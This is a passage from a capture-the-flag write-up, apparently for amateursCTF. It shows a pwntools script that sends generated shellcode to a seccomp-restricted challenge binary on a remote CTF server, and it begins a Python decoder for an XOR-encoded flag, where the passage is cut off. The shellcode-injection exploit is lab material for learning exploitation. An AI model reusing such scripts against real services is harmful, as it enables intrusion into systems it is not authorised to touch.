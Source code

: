 So we can only use ```read```, ```write```, and ```exit``` in our shellcode. Nothing to fear! Thats all we need!

## Pwn

Thankfully, ```pwntools``` has a DOPE shellcode generation extension that makes this pretty trivial to do. We just need to call ```write``` with the file pointer set to ```stdout```, with ```rdi``` as the buffeto write to the screen, and length to read.
```python
#!/usr/bin/env python3

from pwn import *

e = context.binary = ELF('./chal')

r = remote('amt.rs', 31174)
#r = e.process()
#r = gdb.debug('./chal', '''
#              break main
#              continue
#              ''')

print(r.recvuntil(b'> '))

shellcode = asm(shellcraft.write(1, 'rdi', 50))

r.sendline(shellcode)

r.interactive()
```

Et Voila!

# compact_xor

For once, I decided to do a crypto challenge! This was a cool challenge that I didn't even really need to reverse anything for. I just took a hint from the name of the challenge and the flag file we are given.
```
└─$ cat fleg      
610c6115651072014317463d73127613732c73036102653a6217742b701c61086e1a651d742b69075f2f6c0d69075f2c690e681c5f673604650364023944
```

The name suggests we have some value that we need to ```xor``` with another value and the two values must be "close". Just using a ```xor``` calculator online and looking for the first couple letters of the flag format ```amateursCTF{```, I found out that the each two character pair is a hex value and that it is ```xor```d with the following hex value to output a letter of the flag.

The solution is very short if done in python.
```python
#!/usr/bin/env python3

with open('fleg', "r") as file:
    string = file.read()

bytes = [string[i:i + 2] for i in range(0, len(string), 2)]
bytes = bytes[:-1]

ans = ""

for i in range(len(bytes)):
    if i == 0:
        ans += chr(int(bytes[i], 16))
    elif i % 2 == 0:
```